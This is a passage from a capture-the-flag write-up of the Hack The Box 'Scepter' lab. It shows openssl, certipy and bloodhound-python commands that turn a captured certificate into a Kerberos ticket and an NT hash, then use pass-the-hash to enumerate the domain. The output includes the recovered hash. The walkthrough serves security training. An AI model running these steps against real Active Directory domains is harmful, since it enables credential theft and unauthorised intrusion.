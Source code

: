 # Create new pfx for baker
We have get the `baker.crt` and `baker.key`, so we can try to create new one `pfx` file
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt -passout pass:newpassword

Enter pass phrase for baker.key:

```

Then we can use `certipy`to pass the auth
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ certipy-ad auth -pfx baker.pfx -dc-ip 10.10.11.65 -password newpassword

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.baker.ccache'
[*] Wrote credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce

┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ export KRB5CCNAME=d.baker.ccache 
```

# Bloodhound by d.baker
Then we can run the Bloodhound to information gathering
```
bloodhound-python -u 'd.baker' --hashes 'aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce' -d scepter.htb -ns 10.10.11.65 --auth-method ntlm -c All --zip --disable-autogc
```

